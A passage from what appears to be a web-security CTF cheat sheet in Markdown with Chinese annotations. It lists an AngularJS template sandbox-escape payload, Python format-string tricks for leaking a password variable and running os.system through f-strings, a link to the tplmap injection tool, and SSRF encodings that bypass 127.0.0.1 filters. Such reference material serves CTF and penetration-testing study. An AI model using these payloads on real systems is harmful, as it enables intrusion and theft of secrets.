     - `{{ [].pop.constructor('alert(1)')() }}` 2.8 v1.6.0-1.6.6

    

## Python
- `%`
    - 輸入`%(passowrd)s`即可偷到密碼：
    ```python
    userdata = {"user" : "kaibro", "password" : "ggininder" }
    passwd  = raw_input("Password: ")
    if passwd != userdata["password"]:
        print ("Password " + passwd + " is wrong")
    ```
- `f`
    - python 3.6
    - example
        - `a="gg"`
        - `b=f"{a} ininder"`
            - `>>> gg ininder`
    - example2
        - `f"{os.system('ls')}"`

## Tool
- https://github.com/epinna/tplmap

---

http://blog.portswigger.net/2015/08/server-side-template-injection.html

# SSRF

## Bypass 127.0.0.1 

```
127.0.0.1
localhost
127.0.1
127.1
0.0.0.0
0.0
0

::1
::127.0.0.1
::ffff:127.0.0.1
::1%1

127.12.34.56 (127.0.0.1/8)
127.0.0.1.xip.io

http://2130706433 (decimal)
http://0x7f000001
http://017700000001
http://0x7f.0x0.0x0.0x1
http://0177.0.0.1
http://0177.01.01.01
http://0x7f.1
http://[::]

```
